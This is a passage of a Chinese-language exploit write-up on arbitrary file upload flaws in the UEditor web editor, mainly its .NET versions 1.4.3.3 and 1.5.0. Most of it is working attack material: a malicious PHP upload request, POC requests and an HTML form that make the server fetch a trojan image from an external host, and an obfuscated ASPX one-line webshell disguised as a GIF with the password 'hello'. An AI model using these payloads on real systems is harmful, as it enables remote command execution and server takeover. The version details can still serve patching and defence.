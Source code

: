 ```
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4

———WebKitFormBoundaryDMmqvK6b3ncX4xxA
Content-Disposition: form-data; name="fuck"; filename="fuck.php"
Content-Type: application/octet-stream

<?php 
phpinfo();
?>
———WebKitFormBoundaryDMmqvK6b3ncX4xxA—

```

## 4.2 NET 版本的文件上传
该任意文件上传漏洞存在于1.4.3.3、1.5.0和1.3.6版本中，并且只有`.NET`版本受该漏洞影响。黑客可以利用该漏洞上传木马文件，执行命令控制服务器。
该漏洞是由于上传文件时，使用的CrawlerHandler类未对文件类型进行检验，导致了任意文件上传。1.4.3.3和1.5.0版本利用方式稍有不同，1.4.3.3需要一个能正确解析的域名。而1.5.0用IP和普通域名都可以。相对来说1.5.0版本更加容易触发此漏洞；而在1.4.3.3版本中攻击者需要提供一个正常的域名地址就可以绕过判断；

### 4.2.1 ueditor .1.5.0 .net版本
首先1.5.0版本进行测试，需要先在外网服务器上传一个图片木马，比如:1.jpg/1.gif/1.png都可以，下面x.x.x.x是外网服务器地址，source[]参数值改为图片木马地址，并在结尾加上“?.aspx”即可getshell，利用POC：
```
POST /ueditor/net/controller.ashx?action=catchimage
source%5B%5D=http%3A%2F%2Fx.x.x.x/1.gif?.aspx
```

### 4.2.2 ueditor.1.4.3.3 .net版
1、本地构造一个html，因为不是上传漏洞所以enctype 不需要指定为multipart/form-data， 之前见到有poc指定了这个值。完整的poc如下：
```
<html>
<head>
<meta charset="utf-8">
<title>菜鸟教程(runoob.com)</title>
</head>
<body>

<form action="http://xxxxxxxxx/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded"  method="POST">
  <p>shell addr: <input type="text" name="source[]" /></p >
  <input type="submit" value="Submit" />
</form>

</body>
</html>
```

![image](https://user-images.githubusercontent.com/84888757/161834026-5493b7fa-1474-477d-b315-daee21a8c81e.png)

2、需准备一个图片🐎，远程shell地址需要指定扩展名为 1.gif?.aspx，1.gif图片🐎（一句话🐎：密码：hello）如下：
```
GIF89a
<script runat="server" language="JScript">
   function popup(str) {
       var q = "u";
       var w = "afe";
       var a = q + "ns" + w; var b= eval(str,a); return(b);
  }
</script>
<% popup(popup(System.Text.Encoding.GetEncoding(65001). GetString(System.Convert.FromBase64String("UmVxdWVzdC5JdGVtWyJoZWxsbyJd")))); %>
```
成功后，会返回🐎的地址。
